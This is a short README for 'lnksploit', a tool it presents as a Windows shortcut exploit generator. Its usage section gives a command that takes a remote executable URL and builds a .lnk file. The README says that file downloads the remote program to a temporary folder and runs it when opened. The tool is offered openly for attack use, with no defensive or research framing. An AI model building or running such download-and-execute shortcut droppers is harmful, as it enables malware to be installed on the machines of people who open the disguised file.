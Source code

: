 # lnksploit
A Windows subsystem shortcut exploit generator

# Usage
open command line and write
```
lnksploit.exe http://domain.com/remotefile.exe localfilename.exe
```

the generated lnk will download the remote file to a temporary folder and execute it

# Contributions
I'm happy for all contributions to this project